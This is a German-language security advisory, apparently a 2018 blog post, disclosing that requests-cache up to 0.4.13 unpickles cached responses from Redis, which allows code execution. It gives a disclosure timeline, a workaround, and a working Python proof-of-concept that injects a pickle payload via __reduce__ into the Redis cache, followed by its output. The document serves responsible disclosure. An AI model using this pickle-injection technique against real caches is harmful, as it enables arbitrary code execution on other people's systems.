 ```yaml
---
title: Sicherheitslücke in requests-cache
author: Simon Biewald
description: Eine Sicherheitslücke in requests-cache erlaubt Codeausführung.
subject: requests-cache, Sicherheit, Python
date: 2018-01-26
---
```


# Sicherheitslücke in requests-cache

In `requests-cache` ist bis einschließlich in 
der aktuellen Version (Stand: 2018-01-29) 0.4.13 eine Sicherheitslücke, 
die unter Umständen die Ausführung beliebiger
Befehle ermöglicht.

`requests-cache` ermöglicht das Zwischenspeichern von Anworten auf Netzwerkanfragen der 
Python-Bibliothek `requests`. Die Antworten werden mit `pickle` serialisiert. Da die 
serialisierten Daten auf möglicherweise nicht vertrauenswürdigen Netzwerkorten
abgelegt werden, können, sofern Schreibzugriff auf diese besteht, spezielle 
Daten auf diesen abgelegt werden, welche von `requests-cache` wieder geladen und
ausgeführt werden.

Konkret kann die Sicherheitslücke ausgenutzt werden, wenn als Cache-Backend `redis`
verwendet wird und auf den Rediscache zugegriffen werden kann. Dazu kommt, dass
`requests-cache` nicht die Verwendung eines Passworts mit Redis ermöglicht.

Dieses könnte genauso für die Benutzung von MongoDB als Cache-Backend gelten.

Links:

 - [requests-cache](https://pypi.python.org/pypi/requests-cache/0.4.13) 
 auf PyPi
 - [reclosedev/requests-cache](https://github.com/reclosedev/requests-cache/)
 auf GitHub
 
## Historie

 - 14.01.2018: Email an Author; Keine Antwort.
 - 26.01.2018: Issue auf GitHub mit genauer Beschreibung und Proof-of-Concept

## Fix

Noch kein offizieller Fix verfügbar.

### Workaround

Durch die Verwendung des `memory`-Backends (Fallback wenn `sqlite` nicht verfügbar) 
bzw. des `sqlite`-Backends (Standard) mit sicheren Zugriffsrechten ist es möglich 
diese Sicherheitslücke zu vermeiden.

## Proof-of-Concept

Vorraussetzung:

 - Redis auf `localhost:6379`
 - Python3 mit `requests`, `requests-cache<=0.4.13`


<pre class="language-python line-numbers">
<code>import requests
import requests_cache

requests_cache.install_cache(cache_name='cache',backend='redis')
requests_cache.clear()

print("Cachezugriff I.")
response = requests.get("https://example.org")


### Angreifer
print('Angreifer: Setzen des Exploits')
from redis import StrictRedis as Redis
from requests_cache.backends.storage.redisdict import RedisDict

rd = Redis()

class Exploit:
    def __reduce__(self):
        return (print, ("I won.",))

import pickle

exploit = pickle.dumps(Exploit(), protocol=0)

for key in rd.hgetall("cache:responses").keys():
    rd.hset("cache:responses", key, exploit)

print('Angreifer: Ende')
### Angreifer Ende

print("Cachezugriff II. (Exploit)")
response = requests.get("https://example.org")</code></pre>

### Ausgabe

Die Fehlermeldung entsteht dardurch, das der Proof-of-Concept-Exploit nicht besonders 
ausgereift ist.

```python
Cachezugriff I.
Angreifer: Setzen des Exploits
Angreifer: Ende
Cachezugriff II. (Exploit)
I won.
I won.
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/simon/.local/lib/python3.6/site-packages/requests/api.py", line 72, in get
    return request('get', url, params=params, **kwargs)
  File "/home/simon/.local/lib/python3.6/site-packages/requests/api.py", line 58, in request
    return session.request(method=method, url=url, **kwargs)
  File "/home/simon/.local/lib/python3.6/site-packages/requests_cache/core.py", line 126, in request
    **kwargs
  File "/home/simon/.local/lib/python3.6/site-packages/requests/sessions.py", line 508, in request
    resp = self.send(prep, **send_kwargs)
  File "/home/simon/.local/lib/python3.6/site-packages/requests_cache/core.py", line 97, in send
    response, timestamp = self.cache.get_response_and_time(cache_key)
  File "/home/simon/.local/lib/python3.6/site-packages/requests_cache/backends/base.py", line 72, in get_response_and_time
    response, timestamp = self.responses[key]
TypeError: 'NoneType' object is not iterable
```

